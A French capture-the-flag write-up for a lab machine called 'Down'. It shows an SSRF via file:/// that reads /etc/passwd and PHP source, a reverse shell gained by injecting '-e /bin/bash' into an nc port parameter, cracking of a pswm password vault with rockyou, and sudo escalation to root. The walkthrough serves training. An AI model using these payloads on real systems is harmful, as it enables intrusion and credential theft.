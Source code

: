 ```yaml
---
title: Down
description: WU Down
categories: [Writeup]
tags: [writeup]
template: doc
sidebar:
  order: 9 
  badge:
    text: 'Easy'
    variant: 'success'
---
```


<Image src={banner} alt="banner" format="avif" quality={"mid"}/>

# Down

| OS | Difficulty | Target |
|----|----|----|
| Linux | <span style="color:green">**Easy**</span> | 10.10.74.15 |

## 🔭 Enumeration
```sh
nmap -sC -sV -Pn down.vl  
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-10 09:22 CET
Nmap scan report for down.vl (10.10.74.15)
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6cc217ccadaed34fd04efe6f94cddf8 (ECDSA)
|_  256 fa061ff4bf8ce3b0c840210d5706dd11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.45 seconds
```
Nous sommes sur un site demandant de saisir une URL.
cURL est utilisé par le site en question. Nous tentons de faire des requêtes en ajoutant `file:///`

```sh
http://localhost/index.php file:///etc/passwd

# La lecture du fichier passwd est effectuée

It is up. It's just you! 😝

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Is it down or just me?</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>

    <header>
        <img src="/logo.png" alt="Logo">
        <h2>Is it down or just me?</h2>
    </header>

    <div class="container">

<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>
</div>
</div>
<footer>© 2024 isitdownorjustme LLC</footer>
</body>
</html>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
aleks:x:1000:1000:Aleks:/home/aleks:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
```
Voyons ce que nous donne le code source de la page index située `var/www/html/index.php`.
```sh
http://localhost file:///var/www/html/index.php

#Le code source nous donne la possibilité d'utilisé le paramètre `expertmode` et donnant ainsi la possibilité d'obtenir un reverse shell.

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
```
## 👣 Foothold

L'obtention du reverse shell se fera via la page `index.php?expertmode=tcp`, en utilisant burpsuite nous pouvons ajouter  `+-e+/bin/bash` au port de notre `nc`.
Le flag user se situe dans le dossier `/html`.
Lors de la phase d'énumération nous avons pu voir un user `aleks`, nous nous rendons dans son répertoire et cherchons ce qui est exploitable. 
```shell
cd aleks
ls -lah
total 32K
drwxr-xr-x 5 aleks aleks 4.0K Sep 15 09:15 .
drwxr-xr-x 3 root  root  4.0K Sep 13 14:43 ..
lrwxrwxrwx 1 aleks aleks    9 Sep  6 14:43 .bash_history -> /dev/null
-rw-r--r-- 1 aleks aleks  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 aleks aleks 3.7K Jan  6  2022 .bashrc
drwx------ 2 aleks aleks 4.0K Sep  6 15:03 .cache
drwxrwxr-x 3 aleks aleks 4.0K Sep  6 14:45 .local
-rw-r--r-- 1 aleks aleks  807 Jan  6  2022 .profile
drwx------ 2 aleks aleks 4.0K Sep  6 14:42 .ssh
-rw-r--r-- 1 aleks aleks    0 Sep 15 09:15 .sudo_as_admin_successful
cd .local
ls -lah
total 12K
drwxrwxr-x 3 aleks aleks 4.0K Sep  6 14:45 .
drwxr-xr-x 5 aleks aleks 4.0K Sep 15 09:15 ..
drwxrwxr-x 3 aleks aleks 4.0K Sep 13 15:36 share
cd share
ls
pswm
cd pswm
file pswm
pswm: ASCII text, with no line terminators
cat pswm
e9laWoKiJ0OdwK0<REDACTED>BFaKEviDCHBQ==
```
Nous trouvons ce qui semble être un hash créé par `pswm`. Nous utilisons le script `pswm-decryptor`:

python3 pswm-decryptor.py -f pswm.txt -w /usr/share/wordlists/rockyou.txt 
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | f----r               |
| aleks@down | aleks    | 1u-----E |
+------------+----------+----------------------+


## 🎯 Privilege Escalation

Le mot de passe de `aleks` obtenu, nous nous connectons sur cet user. 
```shell
script -qc /bin/bash /dev/null
www-data@down:/home/aleks/.local/share/pswm$ su aleks
su aleks
Password: 1u<REDACTED>E          

aleks@down:~/.local/share/pswm$ sudo -l
sudo -l
[sudo] password for aleks: 1u<REDACTED>E

Matching Defaults entries for aleks on down:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
aleks@down:~/.local/share/pswm$ sudo su
sudo su
root@down:/home/aleks/.local/share/pswm# cat /root/root.txt
```
